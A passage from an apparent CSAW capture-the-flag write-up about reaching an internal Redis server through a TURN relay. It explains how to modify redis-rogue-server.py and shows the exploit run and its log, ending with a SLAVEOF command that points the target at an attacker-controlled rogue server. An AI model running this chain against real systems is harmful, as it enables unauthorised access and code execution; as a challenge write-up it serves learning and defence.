 Next we'll need to modify the rogue server code to utilize the data socket we created in our previous script, since it's normally
setup to just directly connect to the target server.  To achieve this, we'll copy and paste in our code, and then modify the
initializer for the `Remote` server class in `redis-rogue-server.py`.  We'll also need to modify some of the `CONFIG SET` commands
that determine the payload location, as it's likely that `/app`, where the default database is, is not write-able.  You might
also have to make some tweaks to the handling of addresses and ports depending on if your attack machine is behind a NAT.

### Running the Exploit

Assuming everything has gone to plan, we should now be able to run the exploit.  Lets give it a try.

```python
╭─zoey@virtual-parrot ~/sec/csaw/webrtc/redis-rogue-server ‹master*› 
╰─$ ./redis-rogue-server.py --rhost redis-via-turn --rport 6379 --lhost 3.14.182.203 --lport 15240
TARGET redis-via-turn:6379
SERVER 3.14.182.203:15240
generated txn id b'254c37dcf8487fa530d69a26'
Raw Allocation Request Response b'\x01\x03\x00(!\x12\xa4B%L7\xdc\xf8H\x7f\xa50\xd6\x9a&\x00\x16\x00\x08\x00\x01\x9e\xb5\x8d\x03\xa4A\x00 \x00\x08\x00\x01\x8c\x08\xa9\n\xf3$\x00\r\x00\x04\x00\x00\x0e\x10\x80"\x00\x04None'
Message Type b'\x01\x03'
Length 40
Cookie b'2112a442'
txn ID b'254c37dcf8487fa530d69a26'
attribute type XOR-RELAYED-ADDRESS
port 49063
ip 172.17.0.3
value b'00019eb58d03a441'
attibute type XOR-MAPPED-ADDRESS
port 44314
ip 136.24.86.99
value b'00018c08a90af324'
attribute type LIFETIME
value 3600
attribute type SOFTWARE
value None

generated txn id b'72a9a2dc5278c017bf901310'
Raw Connect Request Response b'\x01\n\x00\x08!\x12\xa4Br\xa9\xa2\xdcRx\xc0\x17\xbf\x90\x13\x10\x00*\x00\x04C\xef\xd2\x0b'
Message Type b'\x01\n'
Length 8
Cookie b'2112a442'
txn ID b'72a9a2dc5278c017bf901310'
attribute type CONNECTION_ID
value b'C\xef\xd2\x0b'

generated txn id b'9aa38664daa8dae52547a56c'
Raw ConnectionBind Request Response b'\x01\x0b\x00\x08!\x12\xa4B\x9a\xa3\x86d\xda\xa8\xda\xe5%G\xa5l\x80"\x00\x04None'
Message Type b'\x01\x0b'
Length 8
Cookie b'2112a442'
txn ID b'9aa38664daa8dae52547a56c'
attribute type SOFTWARE
value None

[<-] b'*3\r\n$7\r\nSLAVEOF\r\n$12\r\n3.14.182.203\r\n$5\r\n15240\r\n'
[->] b'+OK\r\n'
```